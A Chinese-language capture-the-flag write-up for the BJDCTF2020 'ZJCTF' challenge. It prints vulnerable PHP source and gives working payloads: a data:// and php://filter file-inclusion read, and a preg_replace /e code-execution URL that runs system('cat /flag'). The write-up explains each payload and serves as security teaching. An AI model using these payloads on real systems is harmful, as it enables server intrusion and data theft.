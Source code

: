 # [BJDCTF2020]ZJCTF，不过如此

[题目地址](https://buuoj.cn/challenges#[BJDCTF2020]ZJCTF%EF%BC%8C%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4)

为什么BJDCTF说ZJCTF不行？

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

简单的一个伪协议。直接构造payload读取注释里提到的next.php文件。

- http://df8bd0fd-28f8-41c2-86dc-0c3da495b1ce.node4.buuoj.cn:81/?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/read=convert.base64-encode/resource=next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

之前见过preg_replace加上/e选项导致的[命令执行](https://xz.aliyun.com/t/2557)。这个选项会使 preg_replace() 将 replacement 参数当作 PHP 代码（在替换完成之后）执行。要确保  replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。问题是这道题的replacement（第二个参数）不是我们能够控制的，此时该如何构造payload呢？

上面给的链接其实已经给出答案了，这题感觉出题人灵感就是从那来的。我们虽然不能控制replacement，但是第一个参数可以控制。结合下面的foreach语句，第一个参数是get传参时的参数名，第三个参数是参数内容。这题肯定是尝试调用getFlag参数。构造payload。

- http://df8bd0fd-28f8-41c2-86dc-0c3da495b1ce.node4.buuoj.cn:81/next.php?\S*=${getFlag()}&cmd=system(%22cat%20/flag%22);

参数名为`\S*`，内容为`${getFlag()}`。`\S*`中的`\S`表示匹配任何非空白字符，`*`表示匹配零个或多个。这倒是不难，可是为什么值是`${getFlag()}`而不是直接`getFlag()`呢？因为第二个参数固定为`strtolower("\\1")`，也就是`\\1`的小写。`\\1`就是1，转义罢了，然而`\1`好像更不知道有什么用了。其实`\1`在正则表达式中有自己的含义，表示反向引用。

- 对一个正则表达式模式或部分模式 两边添加圆括号 将导致相关 匹配存储到一个临时缓冲区 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。

所以`\1`代表第一个子匹配项。[${}](https://www.php.net/manual/zh/language.variables.variable.php)可php的可变变量有关。直接传`getFlag()`，确实能够执行，但是程序回显的地方只有`echo complex($re, $str). "\n";`，也就是preg_replace的返回值：替换后的内容。那getFlag就被原封不动返回来了，看不到执行效果。`${getFlag()}`把getFlag看作参数，先执行getFlag获取其返回值，这样`/1`取到的就是函数执行的结果了。